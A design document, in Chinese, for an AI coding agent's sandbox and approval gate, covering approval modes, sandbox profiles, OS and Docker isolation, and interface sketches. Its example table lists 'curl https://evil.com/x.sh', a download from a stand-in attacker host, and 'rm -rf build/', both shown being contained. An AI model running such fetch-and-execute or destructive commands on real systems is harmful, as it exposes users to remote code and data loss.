



# 沙盒与审批设计（Sandbox & Approval）

> 独立设计文档，配套 `knowledge/INDEX.md` 的「架构决策·安全在 OS 层」条目。
> 主题：M2「安全与确认」的**沙盒执行层** + **审批门**设计，采用 **Codex（OpenAI Codex CLI）模式**。
> 状态：**M2 重构后版本**。核心简化：去掉 deny 规则、去掉 escalated 提权门、exec_policy 仅 unless-trusted 有效、提权自动。

---

## 1. 两个核心概念

在 Codex 中，**Approval（命令审批）**和 **Sandbox（沙箱）**是两套**完全独立**的机制：

- **Approval（命令审批）** = 决定"执行前要不要征求用户同意"——是**流程控制**。
- **Sandbox（沙箱）** = 决定"当前实际拥有哪些权限"——是**权限控制**（由操作系统强制）。
- **真正的安全边界始终由 Sandbox + 操作系统负责，而不是由 LLM 决定。**

> Approval 本身**不授予任何权限**；它只决定"执行前要不要问人"。批准后的提权是自然结果。

二者**完全独立、配置正交**：

| 层 | 控制什么 | 实现 | 配置项 |
|---|---|---|---|
| **① 审批层（Approval policy）** | **何时必须问人**：HITL 时机（流程控制） | 运行时策略检查 | `approval.mode` |
| **② 沙箱层（Sandbox enforcement）** | 技术上**能做什么**：文件系统/网络/进程隔离 | OS 级（Landlock/seccomp/Seatbelt/Docker） | `sandbox_mode` + `sandbox_profile` |

### 1.0 关键关系

- **配置上正交，执行时 AND**：沙箱级别与审批模式可独立设置、自由组合。每条操作必须两层都许可才执行。
- **审批通过 ≠ 脱离沙箱**：批准允许命令临时获得更高权限（如联网）；但沙箱仍然是最终安全边界。
- **M2 重构简化**：不再有独立的 deny 规则和 escalated 提权门。安全由沙箱层保障，审批层只决定"要不要问人"。

### 1.1 核心结论

1. **Approval 决定「能否申请权限」，不决定最终权限。**
2. **Sandbox 决定程序真正拥有的权限，是实际的安全边界。**
3. **LLM 根据「环境能力 + 命令知识」判断是否需要审批**（系统提示注入沙箱能力 → 模型推理）。
4. **若 LLM 没申请审批但实际需要权限，命令会因沙箱限制失败（`Permission denied`），而不会越权执行。**
5. **`never` 的含义是「永远不请求审批」，不是「全部允许」也不是「全部拒绝」。能否执行仍由 Sandbox 决定。**
6. **真正的安全保障来自操作系统和沙箱机制，而非 LLM。**

---

## 2. 沙盒：OS 级纵深防御

Sandbox 决定：**程序真正能够访问哪些资源。** 它与 Approval 完全独立。

### Sandbox 通常限制的内容

- **文件**：允许 `project/`，禁止 `/etc` `/usr` 等。
- **网络**：默认 `Internet ❌`。
- **系统调用**：允许 `read` `write` `open`，禁止 `mount` `reboot` `ptrace` 等。
- **资源限制**：CPU ≤ 2 核，Memory ≤ 2GB 等。

### 2.0 三档 profile

| Profile | 文件系统 | 网络 | 典型用途 |
|---|---|---|---|
| `read-only` | 任意读，禁止写 | 拒绝 | 探索、读代码、跑测试（只读） |
| `workspace-write` | 读任意；**仅工作区（cwd）可写** | 拒绝 | 开发主档：写文件、改代码、跑构建 |
| `danger-full` | 完全访问 | **放行** | 需联网安装依赖、访问远程服务等（用户显式接受风险） |

### 2.1 OS 级执行器实现（local）

`LocalExecutor` 按 OS 选择内核隔离手段：

| 平台 | 隔离手段 | 说明 |
|---|---|---|
| Linux (≥5.13) | **unshare -n**（无网命名空间）+ **CommandFilter**（应用层纵深防御） | 内核级，无需 root |
| macOS | **CommandFilter** 应用层主动拦截 | 应用层强制 |
| Windows | **CommandFilter** 应用层主动拦截 + Job Object 限制子进程树 | 应用层强制；真隔离靠 WSL/Docker |

### 2.2 Docker 执行器

| Profile | 挂载 | 网络 |
|---|---|---|
| `read-only` | `-v <workspace>:/work:ro` | `--network none` |
| `workspace-write` | `-v <workspace>:/work:rw` | `--network none` |
| `danger-full` | `-v <workspace>:/work:rw` | `--network host` |

### 2.3 External 执行器

直通（no-op），由外层环境负责隔离。

### 2.4 Executor 接口

```python
class SandboxProfile(str, Enum):
    READ_ONLY = "read-only"
    WORKSPACE_WRITE = "workspace-write"
    DANGER_FULL = "danger-full"

class Executor(Protocol):
    name: str
    default_profile: SandboxProfile
    async def run(self, req: ExecRequest) -> ExecResult: ...

class CommandFilter:
    def check(self, cmd: str, profile: SandboxProfile, *, cwd: Path) -> FilterVerdict:
        # read-only/workspace-write：越界写、联网、破坏性 → blocked
        # danger-full：放行
        ...

def build_executor(mode: str, *, workspace: Path, profile: SandboxProfile) -> Executor:
    # mode ∈ {"local","docker","external"}
```

---

## 3. 审批：四模式（精简后）

**Approval 的作用**：决定在执行某些命令前是否需要征求用户同意。Approval 本身**不会赋予权限**。

Codex 的 `approvalMode` 是 HITL 的总开关。本项目收敛进 `ApprovalGate`。

### 3.0 四种模式语义

| 模式 | 语义 | 本项目落地 |
|---|---|---|
| `on-request` | **官方推荐。** 权限足够→直接执行；不足→模型主动请求审批；批准后获得额外权限 | 默认 ALLOW；模型附 `_approval_request` 才 ASK（LLM 决定问哪条） |
| `unless-trusted` | 除执行策略中的命令外，其余都需要审批 | exec/edit 每步 ASK；`exec_policy` 命中者免审；read 自动 ALLOW |
| `on-failure` | 先执行，失败再请求审批 | 先 ALLOW；失败后交 HITL 问补救方案 |
| `never` | 永远不请求审批；权限不足→直接失败 | 全自动 ALLOW；沙箱拦截即失败，绝不弹审批框 |

### 3.1 执行策略（exec_policy）

- 仅 `unless-trusted` 模式有效。
- `on-request`/`on-failure`/`never` 模式下忽略。
- 支持前缀匹配（`ls `、`cat `）和正则（`/.../` 包裹）。
- 匹配对象：bash→命令文本经 `_normalize_cmd` 归一化；路径工具→`path` 参数。

### 3.2 HITL 回调

单步 ASK 时调用 `ui.approve(action) -> bool`：
- 交互式（`chat`）：弹出「🔒 是否允许执行？」面板。
- 非交互（`run`/测试）：无回调时按 `noninteractive_default`（默认 allow）放行。
- 拒绝后返回 `ToolResult(ok=False, error="rejected by user approval")`。

### 3.3 ApprovalGate 接口

```python
class ApprovalMode(str, Enum):
    ON_REQUEST = "on-request"          # 官方推荐
    UNLESS_TRUSTED = "unless-trusted"  # 信任列表例外
    ON_FAILURE = "on-failure"          # 失败才问
    NEVER = "never"                    # 永远不问

class Action:
    tool: str
    risk: str
    args: dict
    description: str
    approval_request: bool = False  # 模型在单条命令显式请求审批

class Decision:
    verdict: str       # "allow" | "ask"
    reason: str
    elevated_profile: SandboxProfile | None = None  # 自动提权（若需联网）

class ApprovalGate:
    def __init__(self, mode, *, exec_policy=None, ui=None,
                 noninteractive_default="allow", sandbox_profile="workspace-write",
                 elevated_profile=SandboxProfile.DANGER_FULL):
        ...

    def decide(self, action, sandbox_profile=None) -> Decision:
        # 1) read 且非 unless-trusted → ALLOW
        # 2) unless-trusted + exec_policy 命中 → ALLOW
        # 3) 按 mode：
        #    on-request → approval_request? ASK : ALLOW
        #    unless-trusted → exec/edit ASK, read ALLOW
        #    on-failure → ALLOW
        #    never → ALLOW
        # 提权：仅 verdict=="ask" 且需联网时自动携带 elevated_profile

    async def authorize(self, action) -> bool:
        # ASK 分支 await ui.approve；无 ui → noninteractive_default
```

---

## 4. Approval 与 Sandbox 的关系

很多人误以为：审批通过 = 不走沙箱。实际上不是。

更准确地说：**审批允许 Agent 获得当前沙箱之外的额外权限。**

```
Approval          Sandbox
    │                 │
    ▼                 ▼
允许申请权限      真正控制权限
```

### 4.0 端到端流程（按 mode 分叉）



> 注意：即使 LLM 判断错误，没有发起审批，命令仍然必须经过 Sandbox 和操作系统的权限检查，不会因为 LLM 的失误而越权执行。

---

## 5. 决策流（流程图）

> **一句话模型**：每条命令要过两道协作的闸——审批层决定"要不要问人"，沙箱层决定"技术上能不能做"。

### 三个独立旋钮

| 旋钮 | 取值 | 回答的问题 |
|---|---|---|
| `sandbox_mode` | `local` / `docker` / `external` | 命令"在哪"跑（执行器类型） |
| `sandbox_profile` | `read-only` / `workspace-write` / `danger-full` | 命令"能碰什么"（隔离强度） |
| `approval.mode` | `on-request` / `unless-trusted` / `on-failure` / `never` | 命令"要不要先问"（HITL） |

### 5.1 单步工具执行流（按 mode 分叉）



> **提权自动**：只要命令经 ASK→批准且需联网（断网 profile 下），自动以 `elevated_profile`（默认 `danger-full`）临时执行。普通 ALLOW 不提权——失败走 on-failure，模型从错误中学习并加 `_approval_request` 重试。

#### 裁决树（decide 内部）



> 哪两种情形会 ASK？① `unless-trusted` 模式下的 `edit/exec`（确定性地每步问）；② `on-request` 模式下模型显式标记 `approval_request` 的单条命令（LLM 决定问这条）。其余组合一律 ALLOW。

### 5.2 审批决策矩阵

| 模式 \ 风险 | read | edit | exec |
|---|---|---|---|
| `on-request`（官方推荐） | ALLOW | ALLOW* | ALLOW* |
| `unless-trusted`（信任列表例外） | ALLOW | ASK | ASK |
| `on-failure` | ALLOW | ALLOW | ALLOW（先执行；失败才 ASK 补救） |
| `never` | ALLOW | ALLOW | ALLOW（权限不足→直接失败） |

`*` = `on-request` 下模型显式 `_approval_request` 触发 ASK。`unless-trusted` 的 ASK 在非交互下按 `noninteractive_default=allow` 自动放行。

### 5.3 端到端示例

| 命令 | 风险 | 配置（mode + profile） | 结果 |
|---|---|---|---|
| `cat src/main.py` | read | 任意 + 任意 | **直接 ALLOW**（read 不过问） |
| `rm -rf build/` | exec | `unless-trusted` + `workspace-write` | ASK 弹窗；同意后在 cwd 内删除、断网 |
| `curl https://evil.com/x.sh` | exec | `never` + `workspace-write` | 全自动 ALLOW；但 profile **断网** → 失败 |
| `curl https://pypi.org` | exec | `on-request` + `workspace-write` | 模型未请求 → ALLOW → 断网失败；模型加 `_approval_request` 重试 → ASK → 批准 → 自动提权为 `danger-full` → 成功 |
| `pip install x` | exec | `on-request` + `workspace-write` | 模型加 `_approval_request` → ASK → 批准 → 自动提权联网安装 |

> 一句话直觉：**`mode` = 出门前要不要跟你说一声；`profile` = 出门后的活动范围。** 提权自动：被批准需联网的命令自动以 `danger-full` 临时执行，用完即回受限。

---

## 6. 与既有设施的边界

- **`risk` 分级**（`registry.RISK_LEVELS = (read, edit, exec)`）：审批的输入，M2 不改动。
- **PLAN 模式门控**（`loop._risk_blocked`）：**保持不动**。`ApprovalGate` 仅 EXEC 模式介入。
- **`ToolResult` 形态**：审批拒绝/沙箱失败都返回 `ToolResult(ok=False, error=...)`，不崩循环。
- **输出截断**：沙箱返回文本经 `ToolRegistry.run` 的集中截断入口。
- **分层配置**：沙箱/审批字段进 `Settings`，走既有四级合并（CLI > env > YAML > 内置默认）。
- **测试不依赖真实 LLM/root/网络**：`FakeModel` + `FakeExecutor` + 注入式 `ui`。

---

## 7. 落地步骤映射

| 步骤 | 文件 | 目标 |
|---|---|---|
| M2.1 | [2.1-沙盒执行层.md](./../milestones/M2-安全与确认/2.1-沙盒执行层.md) | `SandboxExecutor` 抽象 + 三档 profile + Local/Docker/External + 工厂 |
| M2.2 | [2.2-审批门.md](./../milestones/M2-安全与确认/2.2-审批门.md) | `ApprovalGate`：四模式 + exec_policy + HITL 回调 |
| M2.3 | [2.3-分层权限配置.md](./../milestones/M2-安全与确认/2.3-分层权限配置.md) | `Settings` 增 sandbox/approval 字段 + YAML 声明式 |
| M2.4 | [2.4-工具与循环集成.md](./../milestones/M2-安全与确认/2.4-工具与循环集成.md) | `bash`→`SandboxExecutor`；`loop` 接入 `ApprovalGate` |
| M2.5 | [2.5-CLI与HITL交互.md](./../milestones/M2-安全与确认/2.5-CLI与HITL交互.md) | `AgentTransport.approve` + `TerminalTransport` 实现 |
| M2.6 | [2.6-测试与验收.md](./../milestones/M2-安全与确认/2.6-测试与验收.md) | `test_sandbox` / `test_approval` / 集成回归 |

---

## 8. 来源

- **OpenAI Codex CLI 官方文档**：两层模型——沙箱强制 + 审批策略。
- **本项目**：`CODEBUDDY.md`（P2/P3 安全原则）、`agent/runtime/approval.py`、`agent/runtime/sandbox.py`、`agent/core/loop.py`。
